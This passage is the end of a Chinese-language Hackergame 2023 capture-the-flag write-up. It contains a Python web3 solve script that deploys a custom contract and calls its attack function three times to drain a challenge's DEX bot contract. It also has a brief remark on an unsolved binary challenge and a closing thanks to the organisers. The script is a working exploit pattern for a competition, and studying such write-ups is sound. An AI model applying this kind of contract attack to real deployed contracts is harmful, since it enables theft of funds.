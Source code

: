 ```python


w3 = Web3()
# w3.middleware_onion.inject(geth_poa_middleware, layer=0)
me = w3.eth.account.from_key(open('me_privatekey.txt').read().strip())

r.sla(b': ', b'1')

r.ru(b'DEX factory1 address:')
factory1 = r.rl().strip().decode()
r.ru(b'Pair1 address:')
pair1 = r.rl().strip().decode()
r.ru(b'Bot contract address:')
bot = r.rl().strip().decode()

r.sla(b'Choice: ', b'1')
r.sla(b': ', me.address.encode())

custom_addr = send(load('Custom.json').constructor(factory1).build_transaction(
    common | {'nonce': get_nonce(), 'from': me.address}))

custom = load('Custom.json', custom_addr)
print('Custom address:', custom.address)

print('f1')
send(custom.functions.attack(bot, pair1, 1056306580606230337).build_transaction(
    common | {'nonce': get_nonce(), 'from': me.address}))

print('f2')
send(custom.functions.attack(bot, pair1, 127393347903781289).build_transaction(
    common | {'nonce': get_nonce(), 'from': me.address}))

print('f3')
send(custom.functions.attack(bot, pair1, 1224949681686598).build_transaction(
    common | {'nonce': get_nonce(), 'from': me.address}))

r.interactive()
```

## 旧日之痕

题目到底想让我干啥……

bindiff 看了几个程序，大体一致但在几个小地方有微小的不同，对执行没有本质影响。但这和什么水印有什么关系…… 它甚至有两个问，我半个问都看不懂。可能这就是二进制苦手吧。

赛后：好像自己根本就没看到 `bw.so`，无语了。

# 结语

虽然被 mcfx 锤了，但还是玩得很开心。感谢 Hackergame2023 组委会的投入与付出！
